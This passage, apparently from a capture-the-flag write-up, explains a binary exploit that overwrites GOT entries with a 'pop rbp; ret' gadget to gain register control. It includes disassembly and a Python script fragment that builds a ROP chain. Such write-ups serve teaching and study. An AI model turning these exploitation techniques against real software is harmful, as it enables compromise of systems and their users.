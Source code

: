 If we overwrite the GOT of `__isoc99_scanf` with `pop rbp; ret`, we can use these instructions to move `rbp - 0x4` into `rsi`.
However, these instructions clobber `rdi`, and the instructions before the call to `fread` that we use to set `rdi` clobber `rsi`, so we can set either `rdi` and `rsi` but not both.
I saw that there is a `mov rdi, rax` gadget right before the call to `fread`, so if we can set `rax` without clobbering `rsi`, then we can set `rsi`, put the value that we want for `rdi` into `rax`, and finally move `rax` into `rdi`.

We can set `rax` by using the overwriting GOT with `pop rbp; ret` trick a third time with these instructions:
<pre><code><span style="color:#005DD0">0x0000000000401192</span> &lt;+28&gt;:	<span style="color:#26A269">mov    </span><span style="color:#C01C28">edi</span>,<span style="color:#005DD0">0x402010</span>
<span style="color:#005DD0">0x0000000000401197</span> &lt;+33&gt;:	<span style="color:#26A269">call   </span><span style="color:#005DD0">0x401080</span> &lt;<span style="color:#A2734C">puts@plt</span>&gt;
...
<span style="color:#005DD0">0x0000000000401207</span> &lt;+145&gt;:	<span style="color:#26A269">mov    </span><span style="color:#C01C28">eax</span>,DWORD PTR [<span style="color:#C01C28">rbp</span><span style="color:#005DD0">-0x4</span>]
<span style="color:#005DD0">0x000000000040120a</span> &lt;+148&gt;:	<span style="color:#26A269">cmp    </span><span style="color:#C01C28">eax</span>,<span style="color:#005DD0">0x2</span>
<span style="color:#005DD0">0x000000000040120d</span> &lt;+151&gt;:	<span style="color:#26A269">jne    </span><span style="color:#005DD0">0x401192</span> &lt;<span style="color:#A2734C">main</span>+28&gt;
</code></pre>

If we overwrite the `puts` GOT with `pop rbp; ret`, then we can jump to `0x401207`, and that will move `[rbp - 0x4]` into `eax`.
As long as the value is not 2, it will jump to `0x401192` and the call to `puts` will act like a `ret`.

We now have all of the pieces that we need for the exploit.
After overwriting the `fread` GOT and leaking libc, we can overwrite the `__isoc99_scanf` and `puts` GOT.
Then we can use the instructions before the `fread` call to set `rcx` and `rdx`, use the instructions before the `scanf` call to set `rsi`, use the instructions before the `puts` call to set `eax`, move `rax` to `rdi`, and finally call `fread` to read in the last part of the ROP chain.

The script to do that looks like this:

```python
# Overwrite GOT again with fread
# Since we overwrote fread GOT earlier, we don't have to stack pivot again
# So we can also overwrite puts GOT with a pop rbp gadget
# The data that will be written is in rop4 below
rop3(rbp=exe.got.setbuf + 16)
rop3.raw(fread_gadget)
rop3.raw(exe.plt.fread + 6)

# Overwrite GOT one last time to overwrite the scanf entry with a pop rbp gadget
# The data that will be written is in rop5
rop3(rbp=exe.got.__isoc99_scanf + 16)
rop3.raw(fread_gadget)
rop3.raw(exe.plt.fread + 6)

# fread, puts, and scanf are now all overwritten with pop rbp
# We now have control over both rdi and rsi

# Call fread with the item size set to 67 to get rid of the junk in the libc stdin buffer and read the final ropchain
# Set rdx and rcx
rop3.raw(fread_gadget)
# Set rsi with the instructions before the scanf call
rop3(rbp=66 + 4)
rop3.raw(rsi_gadget)
```